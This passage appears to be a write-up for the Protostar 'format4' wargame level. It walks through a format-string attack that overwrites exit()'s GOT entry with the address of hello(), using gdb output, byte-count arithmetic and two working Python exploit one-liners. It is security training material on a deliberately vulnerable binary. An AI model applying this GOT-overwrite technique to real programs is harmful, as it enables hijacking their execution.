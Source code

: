 ```shell
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2
```

Right now, it points back into **the PLT section**, which is normal because of how dynamic linking works. Our goal is just overwritten `0x8049724` **(GOT)** with the address of **hello()**, which is `0x80484b4`.

Now, we can again use **Direct Parameter Access (DPA)**, and short-write to overwrite the address in **exit()** to address of **hello()**.

Follow the tip in **Two-Write Method** in **Format 3**, we will choose the smallest value first. In this case is `0x0804`. We already have 8 bytes written from 2 addresses, here is the number of bytes needed for our **width length**: 

$$
0x0804 - 8 = 2044
$$

Next, we need to write `0x84b4 = 33972`:

$$
0x84b4 - 2052 = 31920
$$

Here is the exploit:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%2044x%5$hn%31920x%4$hn"' | ./format4

code execution redirected! you win
```

### Optimization

Since the ***GOT entry*** for `exit()` is unchanged throughout the program (always starts with `0x0804`), rewriting it is redundant.

We can jump directly to the last part of our write, which is `0x84b4 = 33972`:

$$
33972 - 4 = 33968
$$

Let's rebuild our exploit:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\x24\x97\x04\x08" + "%33968x%4$hn"' | ./format4

code execution redirected! you win
```
